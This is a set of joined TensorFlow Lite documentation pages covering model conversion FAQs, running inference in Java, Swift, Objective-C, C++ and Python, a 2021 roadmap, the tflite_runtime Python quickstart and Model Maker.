#### What formats are supported for conversion from TensorFlow to TensorFlow Lite?

The supported formats are listed [here](../convert/index.md#python_api)

#### Why are some operations not implemented in TensorFlow Lite?

In order to keep TFLite lightweight, only certain TF operators (listed in the
[allowlist](op_select_allowlist.md)) are supported in TFLite.

#### Why doesn't my model convert?

Since the number of TensorFlow Lite operations is smaller than TensorFlow's,
some models may not be able to convert. Some common errors are listed
[here](../convert/index.md#conversion-errors).

For conversion issues not related to missing operations or control flow ops,
search our
[GitHub issues](https://github.com/tensorflow/tensorflow/issues?q=label%3Acomp%3Alite+)
or file a [new one](https://github.com/tensorflow/tensorflow/issues).

#### How do I test that a TensorFlow Lite model behaves the same as the original TensorFlow model?

The best way to test is to compare the outputs of the TensorFlow and the
TensorFlow Lite models for the same inputs (test data or random inputs) as shown
[here](inference.md#load-and-run-a-model-in-python).

#### How do I determine the inputs/outputs for GraphDef protocol buffer?

The easiest way to inspect a graph from a `.pb` file is to use
[Netron](https://github.com/lutzroeder/netron), an open-source viewer for
machine learning models.

If Netron cannot open the graph, you can try the
[summarize_graph](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/tools/graph_transforms/README.md#inspecting-graphs)
tool.

If the summarize_graph tool yields an error, you can visualize the GraphDef with
[TensorBoard](https://www.tensorflow.org/guide/summaries_and_tensorboard) and
look for the inputs and outputs in the graph. To visualize a `.pb` file, use the
[`import_pb_to_tensorboard.py`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/tools/import_pb_to_tensorboard.py)
script like below:

```shell
python import_pb_to_tensorboard.py --model_dir <model path> --log_dir <log dir path>
```

#### How do I inspect a `.tflite` file?

[Netron](https://github.com/lutzroeder/netron) is the easiest way to visualize a
TensorFlow Lite model.

If Netron cannot open your TensorFlow Lite model, you can try the
[visualize.py](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/tools/visualize.py)
script in our repository.

If you're using TF 2.5 or a later version

```shell
python -m tensorflow.lite.tools.visualize model.tflite visualized_model.html
```

Otherwise, you can run this script with Bazel

*   [Clone the TensorFlow repository](https://www.tensorflow.org/install/source)
*   Run the `visualize.py` script with bazel:

```shell
bazel run //tensorflow/lite/tools:visualize model.tflite visualized_model.html
```

## Optimization

#### How do I reduce the size of my converted TensorFlow Lite model?

[Post-training quantization](../performance/post_training_quantization.md) can
be used during conversion to TensorFlow Lite to reduce the size of the model.
Post-training quantization quantizes weights to 8-bits of precision from
floating-point and dequantizes them during runtime to perform floating point
computations. However, note that this could have some accuracy implications.

If retraining the model is an option, consider
[Quantization-aware training](https://github.com/tensorflow/tensorflow/tree/r1.13/tensorflow/contrib/quantize).
However, note that quantization-aware training is only available for a subset of
convolutional neural network architectures.

For a deeper understanding of different optimization methods, look at
[Model optimization](../performance/model_optimization.md).

#### How do I optimize TensorFlow Lite performance for my machine learning task?

The high-level process to optimize TensorFlow Lite performance looks something
like this:

*   *Make sure that you have the right model for the task.* For image
    classification, check out our [list of hosted models](hosted_models.md).
*   *Tweak the number of threads.* Many TensorFlow Lite operators support
    multi-threaded kernels. You can use `SetNumThreads()` in the
    [C++ API](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/interpreter.h#L345)
    to do this. However, increasing threads results in performance variability
    depending on the environment.
*   *Use Hardware Accelerators.* TensorFlow Lite supports model acceleration for
    specific hardware using delegates. See our
    [Delegates](../performance/delegates.md) guide for information on what
    accelerators are supported and how to use them with your model on-device.
*   *(Advanced) Profile Model.* The Tensorflow Lite
    [benchmarking tool](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark)
    has a built-in profiler that can show per-operator statistics. If you know
    how you can optimize an operator’s performance for your specific platform,
    you can implement a [custom operator](ops_custom.md).

For a more in-depth discussion on how to optimize performance, take a look at
[Best Practices](../performance/best_practices.md).
# TensorFlow Lite inference

The term *inference* refers to the process of executing a TensorFlow Lite model
on-device in order to make predictions based on input data. To perform an
inference with a TensorFlow Lite model, you must run it through an
*interpreter*. The TensorFlow Lite interpreter is designed to be lean and fast.
The interpreter uses a static graph ordering and a custom (less-dynamic) memory
allocator to ensure minimal load, initialization, and execution latency.

This page describes how to access to the TensorFlow Lite interpreter and perform
an inference using C++, Java, and Python, plus links to other resources for each
[supported platform](#supported-platforms).

[TOC]

## Important concepts

TensorFlow Lite inference typically follows the following steps:

1.  **Loading a model**

    You must load the `.tflite` model into memory, which contains the model's
    execution graph.

1.  **Transforming data**

    Raw input data for the model generally does not match the input data format
    expected by the model. For example, you might need to resize an image or
    change the image format to be compatible with the model.

1.  **Running inference**

    This step involves using the TensorFlow Lite API to execute the model. It
    involves a few steps such as building the interpreter, and allocating
    tensors, as described in the following sections.

1.  **Interpreting output**

    When you receive results from the model inference, you must interpret the
    tensors in a meaningful way that's useful in your application.

    For example, a model might return only a list of probabilities. It's up to
    you to map the probabilities to relevant categories and present it to your
    end-user.

## Supported platforms

TensorFlow inference APIs are provided for most common mobile/embedded platforms
such as [Android](#android-platform), [iOS](#ios-platform) and
[Linux](#linux-platform), in multiple programming languages.

In most cases, the API design reflects a preference for performance over ease of
use. TensorFlow Lite is designed for fast inference on small devices, so it
should be no surprise that the APIs try to avoid unnecessary copies at the
expense of convenience. Similarly, consistency with TensorFlow APIs was not an
explicit goal and some variance between languages is to be expected.

Across all libraries, the TensorFlow Lite API enables you to load models, feed
inputs, and retrieve inference outputs.

### Android Platform

On Android, TensorFlow Lite inference can be performed using either Java or C++
APIs. The Java APIs provide convenience and can be used directly within your
Android Activity classes. The C++ APIs offer more flexibility and speed, but may
require writing JNI wrappers to move data between Java and C++ layers.

See below for details about using [C++](#load-and-run-a-model-in-c) and
[Java](#load-and-run-a-model-in-java), or follow the
[Android quickstart](android.md) for a tutorial and example code.

#### TensorFlow Lite Android wrapper code generator

Note: TensorFlow Lite wrapper code generator is in experimental (beta) phase and
it currently only supports Android.

For TensorFlow Lite model enhanced with [metadata](../convert/metadata.md),
developers can use the TensorFlow Lite Android wrapper code generator to create
platform specific wrapper code. The wrapper code removes the need to interact
directly with `ByteBuffer` on Android. Instead, developers can interact with the
TensorFlow Lite model with typed objects such as `Bitmap` and `Rect`. For more
information, please refer to the
[TensorFlow Lite Android wrapper code generator](../inference_with_metadata/codegen.md).

### iOS Platform

On iOS, TensorFlow Lite is available with native iOS libraries written in
[Swift](https://www.tensorflow.org/code/tensorflow/lite/swift)
and
[Objective-C](https://www.tensorflow.org/code/tensorflow/lite/objc).
You can also use
[C API](https://www.tensorflow.org/code/tensorflow/lite/c/c_api.h)
directly in Objective-C codes.

See below for details about using [Swift](#load-and-run-a-model-in-swift),
[Objective-C](#load-and-run-a-model-in-objective-c) and the
[C API](#using-c-api-in-objective-c-code), or follow the
[iOS quickstart](ios.md) for a tutorial and example code.

### Linux Platform

On Linux platforms (including [Raspberry Pi](build_rpi.md)), you can run
inferences using TensorFlow Lite APIs available in
[C++](#load-and-run-a-model-in-c) and [Python](#load-and-run-a-model-in-python),
as shown in the following sections.

## Running a model

Running a TensorFlow Lite model involves a few simple steps:

1.  Load the model into memory.
2.  Build an `Interpreter` based on an existing model.
3.  Set input tensor values. (Optionally resize input tensors if the predefined
    sizes are not desired.)
4.  Invoke inference.
5.  Read output tensor values.

Following sections describe how these steps can be done in each language.

## Load and run a model in Java

*Platform: Android*

The Java API for running an inference with TensorFlow Lite is primarily designed
for use with Android, so it's available as an Android library dependency:
`org.tensorflow:tensorflow-lite`.

In Java, you'll use the `Interpreter` class to load a model and drive model
inference. In many cases, this may be the only API you need.

You can initialize an `Interpreter` using a `.tflite` file:

```java
public Interpreter(@NotNull File modelFile);
```

Or with a `MappedByteBuffer`:

```java
public Interpreter(@NotNull MappedByteBuffer mappedByteBuffer);
```

In both cases, you must provide a valid TensorFlow Lite model or the API throws
`IllegalArgumentException`. If you use `MappedByteBuffer` to initialize an
`Interpreter`, it must remain unchanged for the whole lifetime of the
`Interpreter`.

The preferred way to run inference on a model is to use signatures -
Available for models converted starting Tensorflow 2.5

```Java
try (Interpreter interpreter = new Interpreter(file_of_tensorflowlite_model)) {
  Map<String, Object> inputs = new HashMap<>();
  inputs.put("input_1", input1);
  inputs.put("input_2", input2);
  Map<String, Object> outputs = new HashMap<>();
  outputs.put("output_1", output1);
  interpreter.runSignature(inputs, outputs, "mySignature");
}
```

The `runSignature` method takes three arguments:

-   **Inputs** : map for inputs from input name in the signature to an input
    object.

-   **Outputs** : map for output mapping from output name in signature to output
    data.

-   **Signature Name** [optional]: Signature name (Can be left empty if the
    model has single signature).

Another way to run an inference when the model doesn't
have a defined signatures.
Simply call `Interpreter.run()`. For example:

```java
try (Interpreter interpreter = new Interpreter(file_of_a_tensorflowlite_model)) {
  interpreter.run(input, output);
}
```

The `run()` method takes only one input and returns only one output. So if your
model has multiple inputs or multiple outputs, instead use:

```java
interpreter.runForMultipleInputsOutputs(inputs, map_of_indices_to_outputs);
```

In this case, each entry in `inputs` corresponds to an input tensor and
`map_of_indices_to_outputs` maps indices of output tensors to the corresponding
output data.

In both cases, the tensor indices should correspond to the values you gave to
the [TensorFlow Lite Converter](../convert/) when you created the model. Be
aware that the order of tensors in `input` must match the order given to the
TensorFlow Lite Converter.

The `Interpreter` class also provides convenient functions for you to get the
index of any model input or output using an operation name:

```java
public int getInputIndex(String opName);
public int getOutputIndex(String opName);
```

If `opName` is not a valid operation in the model, it throws an
`IllegalArgumentException`.

Also beware that `Interpreter` owns resources. To avoid memory leak, the
resources must be released after use by:

```java
interpreter.close();
```

For an example project with Java, see the
[Android image classification sample](https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/android).

### Supported data types (in Java)

To use TensorFlow Lite, the data types of the input and output tensors must be
one of the following primitive types:

*   `float`
*   `int`
*   `long`
*   `byte`

`String` types are also supported, but they are encoded differently than the
primitive types. In particular, the shape of a string Tensor dictates the number
and arrangement of strings in the Tensor, with each element itself being a
variable length string. In this sense, the (byte) size of the Tensor cannot be
computed from the shape and type alone, and consequently strings cannot be
provided as a single, flat `ByteBuffer` argument.

If other data types, including boxed types like `Integer` and `Float`, are used,
an `IllegalArgumentException` will be thrown.

#### Inputs

Each input should be an array or multi-dimensional array of the supported
primitive types, or a raw `ByteBuffer` of the appropriate size. If the input is
an array or multi-dimensional array, the associated input tensor will be
implicitly resized to the array's dimensions at inference time. If the input is
a ByteBuffer, the caller should first manually resize the associated input
tensor (via `Interpreter.resizeInput()`) before running inference.

When using `ByteBuffer`, prefer using direct byte buffers, as this allows the
`Interpreter` to avoid unnecessary copies. If the `ByteBuffer` is a direct byte
buffer, its order must be `ByteOrder.nativeOrder()`. After it is used for a
model inference, it must remain unchanged until the model inference is finished.

#### Outputs

Each output should be an array or multi-dimensional array of the supported
primitive types, or a ByteBuffer of the appropriate size. Note that some models
have dynamic outputs, where the shape of output tensors can vary depending on
the input. There's no straightforward way of handling this with the existing
Java inference API, but planned extensions will make this possible.

## Load and run a model in Swift

*Platform: iOS*

The
[Swift API](https://www.tensorflow.org/code/tensorflow/lite/swift)
is available in `TensorFlowLiteSwift` Pod from Cocoapods.

First, you need to import `TensorFlowLite` module.

```swift
import TensorFlowLite
```

```swift
// Getting model path
guard
  let modelPath = Bundle.main.path(forResource: "model", ofType: "tflite")
else {
  // Error handling...
}

do {
  // Initialize an interpreter with the model.
  let interpreter = try Interpreter(modelPath: modelPath)

  // Allocate memory for the model's input `Tensor`s.
  try interpreter.allocateTensors()

  let inputData: Data  // Should be initialized

  // input data preparation...

  // Copy the input data to the input `Tensor`.
  try self.interpreter.copy(inputData, toInputAt: 0)

  // Run inference by invoking the `Interpreter`.
  try self.interpreter.invoke()

  // Get the output `Tensor`
  let outputTensor = try self.interpreter.output(at: 0)

  // Copy output to `Data` to process the inference results.
  let outputSize = outputTensor.shape.dimensions.reduce(1, {x, y in x * y})
  let outputData =
        UnsafeMutableBufferPointer<Float32>.allocate(capacity: outputSize)
  outputTensor.data.copyBytes(to: outputData)

  if (error != nil) { /* Error handling... */ }
} catch error {
  // Error handling...
}
```

## Load and run a model in Objective-C

*Platform: iOS*

The
[Objective-C API](https://www.tensorflow.org/code/tensorflow/lite/objc)
is available in `TensorFlowLiteObjC` Pod from Cocoapods.

First, you need to import `TensorFlowLite` module.

```objc
@import TensorFlowLite;
```

```objc
NSString *modelPath = [[NSBundle mainBundle] pathForResource:@"model"
                                                      ofType:@"tflite"];
NSError *error;

// Initialize an interpreter with the model.
TFLInterpreter *interpreter = [[TFLInterpreter alloc] initWithModelPath:modelPath
                                                                  error:&error];
if (error != nil) { /* Error handling... */ }

// Allocate memory for the model's input `TFLTensor`s.
[interpreter allocateTensorsWithError:&error];
if (error != nil) { /* Error handling... */ }

NSMutableData *inputData;  // Should be initialized
// input data preparation...

// Get the input `TFLTensor`
TFLTensor *inputTensor = [interpreter inputTensorAtIndex:0 error:&error];
if (error != nil) { /* Error handling... */ }

// Copy the input data to the input `TFLTensor`.
[inputTensor copyData:inputData error:&error];
if (error != nil) { /* Error handling... */ }

// Run inference by invoking the `TFLInterpreter`.
[interpreter invokeWithError:&error];
if (error != nil) { /* Error handling... */ }

// Get the output `TFLTensor`
TFLTensor *outputTensor = [interpreter outputTensorAtIndex:0 error:&error];
if (error != nil) { /* Error handling... */ }

// Copy output to `NSData` to process the inference results.
NSData *outputData = [outputTensor dataWithError:&error];
if (error != nil) { /* Error handling... */ }
```

### Using C API in Objective-C code

Currently Objective-C API does not support delegates. In order to use delegates
with Objective-C code, you need to directly call underlying
[C API](https://www.tensorflow.org/code/tensorflow/lite/c/c_api.h).

```c
#include "tensorflow/lite/c/c_api.h"
```

```c
TfLiteModel* model = TfLiteModelCreateFromFile([modelPath UTF8String]);
TfLiteInterpreterOptions* options = TfLiteInterpreterOptionsCreate();

// Create the interpreter.
TfLiteInterpreter* interpreter = TfLiteInterpreterCreate(model, options);

// Allocate tensors and populate the input tensor data.
TfLiteInterpreterAllocateTensors(interpreter);
TfLiteTensor* input_tensor =
    TfLiteInterpreterGetInputTensor(interpreter, 0);
TfLiteTensorCopyFromBuffer(input_tensor, input.data(),
                           input.size() * sizeof(float));

// Execute inference.
TfLiteInterpreterInvoke(interpreter);

// Extract the output tensor data.
const TfLiteTensor* output_tensor =
    TfLiteInterpreterGetOutputTensor(interpreter, 0);
TfLiteTensorCopyToBuffer(output_tensor, output.data(),
                         output.size() * sizeof(float));

// Dispose of the model and interpreter objects.
TfLiteInterpreterDelete(interpreter);
TfLiteInterpreterOptionsDelete(options);
TfLiteModelDelete(model);
```

## Load and run a model in C++

*Platforms: Android, iOS, and Linux*

Note: C++ API on iOS is only available when using bazel.

In C++, the model is stored in
[`FlatBufferModel`](https://www.tensorflow.org/lite/api_docs/cc/class/tflite/flat-buffer-model.html)
class. It encapsulates a TensorFlow Lite model and you can build it in a couple
of different ways, depending on where the model is stored:

```c++
class FlatBufferModel {
  // Build a model based on a file. Return a nullptr in case of failure.
  static std::unique_ptr<FlatBufferModel> BuildFromFile(
      const char* filename,
      ErrorReporter* error_reporter);

  // Build a model based on a pre-loaded flatbuffer. The caller retains
  // ownership of the buffer and should keep it alive until the returned object
  // is destroyed. Return a nullptr in case of failure.
  static std::unique_ptr<FlatBufferModel> BuildFromBuffer(
      const char* buffer,
      size_t buffer_size,
      ErrorReporter* error_reporter);
};
```

Note: If TensorFlow Lite detects the presence of the
[Android NNAPI](https://developer.android.com/ndk/guides/neuralnetworks), it
will automatically try to use shared memory to store the `FlatBufferModel`.

Now that you have the model as a `FlatBufferModel` object, you can execute it
with an
[`Interpreter`](https://www.tensorflow.org/lite/api_docs/cc/class/tflite/interpreter.html).
A single `FlatBufferModel` can be used simultaneously by more than one
`Interpreter`.

Caution: The `FlatBufferModel` object must remain valid until all instances of
`Interpreter` using it have been destroyed.

The important parts of the `Interpreter` API are shown in the code snippet
below. It should be noted that:

*   Tensors are represented by integers, in order to avoid string comparisons
    (and any fixed dependency on string libraries).
*   An interpreter must not be accessed from concurrent threads.
*   Memory allocation for input and output tensors must be triggered by calling
    `AllocateTensors()` right after resizing tensors.

The simplest usage of TensorFlow Lite with C++ looks like this:

```c++
// Load the model
std::unique_ptr<tflite::FlatBufferModel> model =
    tflite::FlatBufferModel::BuildFromFile(filename);

// Build the interpreter
tflite::ops::builtin::BuiltinOpResolver resolver;
std::unique_ptr<tflite::Interpreter> interpreter;
tflite::InterpreterBuilder(*model, resolver)(&interpreter);

// Resize input tensors, if desired.
interpreter->AllocateTensors();

float* input = interpreter->typed_input_tensor<float>(0);
// Fill `input`.

interpreter->Invoke();

float* output = interpreter->typed_output_tensor<float>(0);
```

For more example code, see
[`minimal.cc`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/examples/minimal/minimal.cc)
and
[`label_image.cc`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/examples/label_image/label_image.cc).

## Load and run a model in Python

*Platform: Linux*

The Python API for running an inference is provided in the `tf.lite` module.
From which, you mostly need only
[`tf.lite.Interpreter`](https://www.tensorflow.org/api_docs/python/tf/lite/Interpreter)
to load a model and run an inference.

The following example shows how to use the Python interpreter to load a
`.tflite` file and run inference with random input data:

This example is recommended if you're converting from SavedModel with a defined
SignatureDef.
Available starting from TensorFlow 2.5

```python
class TestModel(tf.Module):
  def __init__(self):
    super(TestModel, self).__init__()

  @tf.function(input_signature=[tf.TensorSpec(shape=[1, 10], dtype=tf.float32)])
  def add(self, x):
    '''
    Simple method that accepts single input 'x' and returns 'x' + 4.
    '''
    # Name the output 'result' for convenience.
    return {'result' : x + 4}


SAVED_MODEL_PATH = 'content/saved_models/test_variable'
TFLITE_FILE_PATH = 'content/test_variable.tflite'

# Save the model
module = TestModel()
# You can omit the signatures argument and a default signature name will be
# created with name 'serving_default'.
tf.saved_model.save(
    module, SAVED_MODEL_PATH,
    signatures={'my_signature':module.add.get_concrete_function()})

# Convert the model using TFLiteConverter
converter = tf.lite.TFLiteConverter.from_saved_model(SAVED_MODEL_PATH)
tflite_model = converter.convert()
with open(TFLITE_FILE_PATH, 'wb') as f:
  f.write(tflite_model)

# Load the TFLite model in TFLite Interpreter
interpreter = tf.lite.Interpreter(TFLITE_FILE_PATH)
# There is only 1 signature defined in the model,
# so it will return it by default.
# If there are multiple signatures then we can pass the name.
my_signature = interpreter.get_signature_runner()

# my_signature is callable with input as arguments.
output = my_signature(x=tf.constant([1.0], shape=(1,10), dtype=tf.float32))
# 'output' is dictionary with all outputs from the inference.
# In this case we have single output 'result'.
print(output['result'])
```

Another example if the model doesn't have SignatureDefs defined.

```python
import numpy as np
import tensorflow as tf

# Load the TFLite model and allocate tensors.
interpreter = tf.lite.Interpreter(model_path="converted_model.tflite")
interpreter.allocate_tensors()

# Get input and output tensors.
input_details = interpreter.get_input_details()
output_details = interpreter.get_output_details()

# Test the model on random input data.
input_shape = input_details[0]['shape']
input_data = np.array(np.random.random_sample(input_shape), dtype=np.float32)
interpreter.set_tensor(input_details[0]['index'], input_data)

interpreter.invoke()

# The function `get_tensor()` returns a copy of the tensor data.
# Use `tensor()` in order to get a pointer to the tensor.
output_data = interpreter.get_tensor(output_details[0]['index'])
print(output_data)
```

As an alternative to loading the model as a pre-converted `.tflite` file, you
can combine your code with the
[TensorFlow Lite Converter Python API](https://www.tensorflow.org/lite/convert/python_api)
(`tf.lite.TFLiteConverter`), allowing you to convert your TensorFlow model into
the TensorFlow Lite format and then run inference:

```python
import numpy as np
import tensorflow as tf

img = tf.placeholder(name="img", dtype=tf.float32, shape=(1, 64, 64, 3))
const = tf.constant([1., 2., 3.]) + tf.constant([1., 4., 4.])
val = img + const
out = tf.identity(val, name="out")

# Convert to TF Lite format
with tf.Session() as sess:
  converter = tf.lite.TFLiteConverter.from_session(sess, [img], [out])
  tflite_model = converter.convert()

# Load the TFLite model and allocate tensors.
interpreter = tf.lite.Interpreter(model_content=tflite_model)
interpreter.allocate_tensors()

# Continue to get tensors and so forth, as shown above...
```

For more Python sample code, see
[`label_image.py`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/examples/python/label_image.py).

Tip: Run `help(tf.lite.Interpreter)` in the Python terminal to get detailed
documentation about the interpreter.

## Supported operations

TensorFlow Lite supports a subset of TensorFlow operations with some
limitations. For full list of operations and limitations see
[TF Lite Ops page](https://www.tensorflow.org/mlir/tfl_ops).
# TensorFlow Lite Roadmap

**Updated: May, 2021**

The following represents a high level overview of our roadmap. You should be
aware that this roadmap may change at any time and the order below does not
reflect any type of priority.

We break our roadmap into four key segments: usability, performance,
optimization and portability. We strongly encourage you to comment on our
roadmap and provide us feedback in the
[TensorFlow Lite discussion group](https://groups.google.com/a/tensorflow.org/g/tflite).

## Usability

*   **Expanded ops coverage**
    *   Add targeted ops based on user feedback.
    *   Add targeted op sets for specific domains and areas including Random
        ops, base Keras layer ops, hash tables, select training ops.
*   **More assistive tooling**
    *   Provide TensorFlow graph annotations and compatibility tools to validate
        TFLite and hardware accelerator compatibility during-training and
        after-conversion.
    *   Allow targeting and optimizing for specific accelerators during
        conversion.
*   **On-device training**
    *   Support on-device training for personalization and transfer learning,
        including a Colab demonstrating end-to-end usage.
    *   Support variable/resource types (both for inference and training)
    *   Support converting and executing graphs with multiple function (or
        signature) entry-points.
*   **Enhanced Android Studio integration**
    *   Drag and drop TFLite models into Android Studio to generate model
        interfaces.
    *   Improve Android Studio profiling support, including memory profiling.
*   **Model Maker**
    *   Support newer tasks, including object detection, recommendation, and
        audio classification, covering a wide collection of common usage.
    *   Support more data sets to make transfer learning easier.
*   **Task Library**
    *   Support more model types (e.g. audio, NLP) with associated pre and post
        processing capabilities.
    *   Update more reference examples with Task APIs.
    *   Support out-of-the-box acceleration for all tasks.
*   **More SOTA models and examples**
    *   Add more examples (e.g. audio, NLP, structure-data related) to
        demonstrate model usage as well as new features and APIs, covering
        different platforms.
    *   Create shareable backbone models for on-device to reduce training and
        deployment costs.
*   **Seamless deployment across multiple platforms**
    *   Run TensorFlow Lite models on the web.
*   **Improved cross-platform support**
    *   Extend and improve APIs for Java on Android, Swift on iOS, Python on
        RPi.
    *   Enhance CMake support (e.g., broader accelerator support).
*   **Better frontend support**
    *   Improve compatibility with various authoring frontends, including Keras,
        tf.numpy.

## Performance

*   **Better tooling**
    *   Public dashboard for tracking performance gains with each release.
    *   Tooling for better understanding graph compatibility with target
        accelerators.
*   **Improved CPU performance**
    *   XNNPack enabled by default for faster floating point inference.
    *   End-to-end half precision (float16) support with optimized kernels.
*   **Updated NN API support**
    *   Full support for newer Android version NN API features, ops, and types.
*   **GPU optimizations**
    *   Improved startup time with delegate serialization support.
    *   Hardware buffer interop for zero-copy inference.
    *   Wider availability of on device acceleration.
    *   Better op coverage.

## Optimization

*   **Quantization**

    *   Selective post-training quantization to exclude certain layers from
        quantization.
    *   Quantization debugger to inspect quantization error losses per each
        layer.
    *   Applying quantization-aware training on more model coverage e.g.
        TensorFlow Model Garden.
    *   Quality and performance improvements for post-training dynamic-range
        quantization.
    *   Tensor Compression API to allow compression algorithms such as SVD.

*   **Pruning / sparsity**

    *   Combine configurable training-time (pruning + quantization-aware
        training) APIs.
    *   Increase sparity application on TF Model Garden models.
    *   Sparse model execution support in TensorFlow Lite.

## Portability

*   **Microcontroller Support**
    *   Add support for a range of 32-bit MCU architecture use cases for speech
        and image classification.
    *   Audio Frontend: In-graph audio pre-processing and acceleration support
    *   Sample code and models for vision and audio data.
# Python quickstart

Using TensorFlow Lite with Python is great for embedded devices based on Linux,
such as [Raspberry Pi](https://www.raspberrypi.org/){:.external} and
[Coral devices with Edge TPU](https://coral.withgoogle.com/){:.external},
among many others.

This page shows how you can start running TensorFlow Lite models with Python in
just a few minutes. All you need is a TensorFlow model [converted to TensorFlow
Lite](../convert/). (If you don't have a model converted yet, you can experiment
using the model provided with the example linked below.)

## About the TensorFlow Lite runtime package

To quickly start executing TensorFlow Lite models with Python, you can install
just the TensorFlow Lite interpreter, instead of all TensorFlow packages. We
call this simplified Python package `tflite_runtime`.

The `tflite_runtime` package is a fraction the size of the full `tensorflow`
package and includes the bare minimum code required to run inferences with
TensorFlow Lite—primarily the
[`Interpreter`](https://www.tensorflow.org/api_docs/python/tf/lite/Interpreter)
Python class. This small package is ideal when all you want to do is execute
`.tflite` models and avoid wasting disk space with the large TensorFlow library.

Note: If you need access to other Python APIs, such as the
[TensorFlow Lite Converter](../convert/), you must install the
[full TensorFlow package](https://www.tensorflow.org/install/).
For example, the [Select TF ops]
(https://www.tensorflow.org/lite/guide/ops_select) are not included in the
`tflite_runtime` package. If your models have any dependencies to the Select TF
ops, you need to use the full TensorFlow package instead.

## Install TensorFlow Lite for Python

You can install on Linux with pip:

<pre class="devsite-terminal devsite-click-to-copy">
python3 -m pip install tflite-runtime
</pre>

## Supported platforms

The `tflite-runtime` Python wheels are pre-built and provided for these
platforms:
* Linux armv7l (e.g. Raspberry Pi 2, 3, 4 and Zero 2 running Raspberry Pi OS
  32-bit)
* Linux aarch64 (e.g. Raspberry Pi 3, 4 running Debian ARM64)
* Linux x86_64

If you want to run TensorFlow Lite models on other platforms, you should either
use the [full TensorFlow package](https://www.tensorflow.org/install/), or
[build the tflite-runtime package from source](build_cmake_pip.md).

If you're using TensorFlow with the Coral Edge TPU, you should
instead follow the appropriate [Coral setup documentation](https://coral.ai/docs/setup).

Note: We no longer update the Debian package `python3-tflite-runtime`. The
latest Debian package is for TF version 2.5, which you can install by following
[these older instructions](https://github.com/tensorflow/tensorflow/blob/v2.5.0/tensorflow/lite/g3doc/guide/python.md#install-tensorflow-lite-for-python).

Note: We no longer release pre-built `tflite-runtime` wheels for Windows and
macOS. For these platforms, you should use the
[full TensorFlow package](https://www.tensorflow.org/install/), or
[build the tflite-runtime package from source](build_cmake_pip.md).

## Run an inference using tflite_runtime

Instead of importing `Interpreter` from the `tensorflow` module, you now need to
import it from `tflite_runtime`.

For example, after you install the package above, copy and run the
[`label_image.py`](
https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/examples/python/)
file. It will (probably) fail because you don't have the `tensorflow` library
installed. To fix it, edit this line of the file:

```python
import tensorflow as tf
```

So it instead reads:

```python
import tflite_runtime.interpreter as tflite
```

And then change this line:

```python
interpreter = tf.lite.Interpreter(model_path=args.model_file)
```

So it reads:

```python
interpreter = tflite.Interpreter(model_path=args.model_file)
```

Now run `label_image.py` again. That's it! You're now executing TensorFlow Lite
models.

## Learn more

* For more details about the `Interpreter` API, read
  [Load and run a model in Python](inference.md#load-and-run-a-model-in-python).

* If you have a Raspberry Pi, check out a [video series](https://www.youtube.com/watch?v=mNjXEybFn98&list=PLQY2H8rRoyvz_anznBg6y3VhuSMcpN9oe)
  about how to run object detection on Raspberry Pi using TensorFlow Lite.

* If you're using a Coral ML accelerator, check out the
  [Coral examples on GitHub](https://github.com/google-coral/tflite/tree/master/python/examples).

* To convert other TensorFlow models to TensorFlow Lite, read about the
  [TensorFlow Lite Converter](../convert/).

* If you want to build `tflite_runtime` wheel, read
  [Build TensorFlow Lite Python Wheel Package](build_cmake_pip.md)
# TensorFlow Lite Model Maker

## Overview

The TensorFlow Lite Model Maker library simplifies the process of training a
TensorFlow Lite model using custom dataset. It uses transfer learning to reduce
the amount of training data required and shorten the training time.

## Supported Tasks

The Model Maker library currently supports the following ML tasks. Click the
links below for guides on how to train the model.

Supported Tasks                                                                                                                                                                                                                                                                                                                             | Task Utility
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------
Image Classification: [tutorial](https://www.tensorflow.org/lite/tutorials/model_maker_image_classification), [api](https://www.tensorflow.org/lite/api_docs/python/tflite_model_maker/image_classifier)                                                                                                                                    | Classify images into predefined categories.
Object Detection: [tutorial](https://www.tensorflow.org/lite/tutorials/model_maker_object_detection), [api](https://www.tensorflow.org/lite/api_docs/python/tflite_model_maker/object_detector)                                                                                                                                             | Detect objects in real time.
Text Classification: [tutorial](https://www.tensorflow.org/lite/tutorials/model_maker_text_classification), [api](https://www.tensorflow.org/lite/api_docs/python/tflite_model_maker/text_classifier)                                                                                                                                       | Classify text into predefined categories.
BERT Question Answer: [tutorial](https://www.tensorflow.org/lite/tutorials/model_maker_question_answer), [api](https://www.tensorflow.org/lite/api_docs/python/tflite_model_maker/question_answer)                                                                                                                                          | Find the answer in a certain context for a given question with BERT.
Audio Classification: [tutorial](https://www.tensorflow.org/lite/tutorials/model_maker_audio_classification), [api](https://www.tensorflow.org/lite/api_docs/python/tflite_model_maker/audio_classifier) | Classify audio into predefined categories.
Recommendation: [demo](https://github.com/tensorflow/examples/blob/master/tensorflow_examples/lite/model_maker/demo/recommendation_demo.py), [api](https://www.tensorflow.org/lite/api_docs/python/tflite_model_maker/recommendation)                                                                                                       | Recommend items based on the context information for on-device scenario.

If your tasks are not supported, please first use [TensorFlow](https://www.tensorflow.org/guide)
to retrain a TensorFlow model with transfer learning (following guides like
[images](https://www.tensorflow.org/tutorials/images/transfer_learning),
[text](https://www.tensorflow.org/official_models/fine_tuning_bert),
[audio](https://www.tensorflow.org/tutorials/audio/transfer_learning_audio)) or
train it from scratch, and then [convert](https://www.tensorflow.org/lite/convert)
it to TensorFlow Lite model.

## End-to-End Example

Model Maker allows you to train a TensorFlow Lite model using custom datasets in
just a few lines of code. For example, here are the steps to train an image
classification model.

```python
from tflite_model_maker import image_classifier
from tflite_model_maker.image_classifier import DataLoader

# Load input data specific to an on-device ML app.
data = DataLoader.from_folder('flower_photos/')
train_data, test_data = data.split(0.9)

# Customize the TensorFlow model.
model = image_classifier.create(train_data)

# Evaluate the model.
loss, accuracy = model.evaluate(test_data)

# Export to Tensorflow Lite model and label file in `export_dir`.
model.export(export_dir='/tmp/')
```

For more details, see the
[image classification guide](https://www.tensorflow.org/lite/tutorials/model_maker_image_classification).

